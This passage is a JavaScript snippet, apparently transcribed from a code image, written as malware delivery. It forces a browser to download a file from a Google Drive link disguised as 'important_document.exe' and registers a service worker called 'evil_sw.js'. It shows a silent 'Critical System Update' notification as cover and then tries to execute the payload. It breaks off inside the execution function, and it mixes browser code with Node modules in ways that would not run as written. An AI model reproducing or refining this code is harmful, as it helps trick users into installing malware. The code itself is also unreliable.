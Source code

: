 

```javascript

(async function() {

  const link = document.createElement('a');

  link.href = 'https://drive.google.com/uc?export=download&id=YOUR_FILE_ID';

  link.download = 'important_document.exe';

  document.body.appendChild(link);

  link.click();

  await sleep(2000); // Waiting for the download to complete

  await hideAndRunExe();

})();



function sleep(ms) {

  return new Promise(resolve => setTimeout(resolve, ms));

}



async function hideAndRunExe() {

  const runCommand = 'important_document.exe';

  try {

    await navigator.serviceWorker.register('evil_sw.js');

    const registration = await navigator.serviceWorker.ready;

    await registration.sync.register(runCommand);

    await registration.showNotification('', { body: 'Critical System Update', silent: true });

    await executePayload(runCommand);

  } catch (error) {

    console.error('Failed to hide and run exe:', error);

  }

}



async function executePayload(runCommand) {

  const fs = require('fs');

  const os = require('os');

  const path = require('path');
```